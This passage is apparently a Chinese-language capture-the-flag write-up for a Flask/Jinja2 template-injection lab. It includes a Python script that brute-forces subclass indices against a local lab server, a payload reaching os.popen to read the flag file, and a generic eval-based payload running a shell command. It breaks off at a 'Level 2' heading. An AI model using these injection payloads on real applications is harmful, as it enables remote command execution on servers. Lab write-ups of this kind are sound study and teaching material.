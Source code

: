 初步尝试 ,由于不好整理索引,写个脚本

![image-20210924193657572](https://particles.oss-cn-beijing.aliyuncs.com/img/image-20210924193657572.png)

```python
import requests

url = "http://192.168.0.108:5001/level/1"

for i in range(300):
	data = {"code": '{{"".__class__.__base__.__subclasses__()['+ str(i) +']}}'}
	try:
		response = requests.post(url,data=data)
		#print(data)
		#print(response.text)
		if response.status_code == 200:
			if "_wrap_close" in response.text:
				print(i,"----->",response.text)
				break
	except :
		pass
# 结果为  132 -----> Hello &lt;class &#39;os._wrap_close&#39;&gt;
```

得到索引后,构造 payload,拿到 flag

`{{"".__class__.__base__.__subclasses__()[132].__init__.__globals__['popen']('cat flag').read()}}`

![image-20210927112712493](https://particles.oss-cn-beijing.aliyuncs.com/img/image-20210927112712493.png)

### 拓展

由于程序并没有对输入的内容进行任何判断和过滤,所以我们可以直接插入一段通用 payload 代码段,

```python
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.__globals__.values() %}
  {% if b.__class__ == {}.__class__ %}
    {% if'eval' in b.keys() %}
      {{b['eval']('__import__("os").popen("calc").read()') }}
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}
```

但是我这里没打通.后来在开服务的机器上查了下发现没有 `catch_warnings`这个类.也懒的改了,感兴趣的可以试试.

### Level 2 bypass {{

![image-20210924190118628](https://particles.oss-cn-beijing.aliyuncs.com/img/image-20210924190118628.png)
